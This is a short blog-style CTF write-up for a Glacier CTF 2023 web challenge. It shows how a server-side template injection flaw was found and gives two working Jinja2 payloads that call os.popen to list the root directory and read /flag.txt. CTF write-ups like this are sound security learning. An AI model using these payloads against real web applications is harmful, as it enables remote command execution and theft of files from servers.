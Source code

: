 ```yaml
---
author: pl4int3xt
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
// cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [CTF]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](/img/glacier-ctf-2023/1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](/img/glacier-ctf-2023/2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](/img/glacier-ctf-2023/3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](/img/glacier-ctf-2023/4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](/img/glacier-ctf-2023/5.png)

